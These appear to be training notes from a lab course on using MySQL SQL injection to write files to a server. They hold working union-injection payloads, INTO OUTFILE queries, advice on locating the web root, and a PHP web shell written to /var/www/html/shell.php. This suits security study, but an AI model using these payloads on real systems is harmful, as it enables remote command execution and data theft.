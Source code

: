 To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server
```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

## SELECT INTO OUTFILE
```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```
```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

## Writing Files through SQL Injection
```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```
![](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)
Note: We see the string we dumped along with '1', '3' before it, and '4' after it. This is because the entire 'UNION' query result was written to the file. To make the output cleaner, we can use "" instead of numbers.

## Writing a Web Shell
```php
<?php system($_REQUEST[0]); ?>
```
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```